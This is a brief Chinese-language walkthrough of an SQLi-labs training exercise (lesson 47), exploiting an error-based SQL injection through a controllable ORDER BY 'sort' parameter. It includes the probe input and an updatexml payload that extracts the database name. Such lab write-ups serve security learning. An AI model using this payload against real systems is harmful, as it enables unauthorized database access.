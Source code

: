 # GET-Error based -String -ORDER BY CLAUSE  
TAG：GET型注入、可控的Order by
## 漏洞利用  
![less47_1](images\less47_1.png)  
  
输入```?sort=1'```获取报错信息，得知参数的包裹方式为单引号   
![less47_2](images\less47_2.png)  
此less和less46相似，都是对order by参数可控，存在注入可能  
简单修改less46的payload进行数据库名的获取  
Payload:```?sort=1' and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)--+```